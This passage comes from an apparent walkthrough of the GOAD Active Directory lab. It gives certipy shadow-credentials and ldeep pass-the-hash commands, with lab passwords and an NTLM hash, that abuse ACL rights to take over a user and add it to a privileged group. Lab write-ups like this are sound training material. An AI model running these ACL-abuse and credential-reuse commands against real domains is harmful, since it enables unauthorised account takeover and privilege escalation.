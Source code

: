 - Ok now we can : 
  - change tyron password
  - do a target kerberoasting
  - do a shadow credentials

- Let's just use shadowcredentials :

```bash
certipy shadow auto -u joffrey.baratheon@sevenkingdoms.local -p '1killerlion' -account 'tyron.lannister'
```

![acl_ritedacl_shadowcreds.png](/assets/blog/GOAD/acl_ritedacl_shadowcreds.png)

## Add self on Group (Tyron -> Small Council)

- We now got tyron so we can add us into the small council group

![acl_addself.png](/assets/blog/GOAD/acl_addself.png)

- First find the distinguished name

```bash
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=tyron.lannister)' distinguishedName
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=Small Council)' distinguishedName
```

- Add tyron to Small Council

```bash
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=Small Council,OU=Crownlands,DC=sevenkingdoms,DC=local"
```
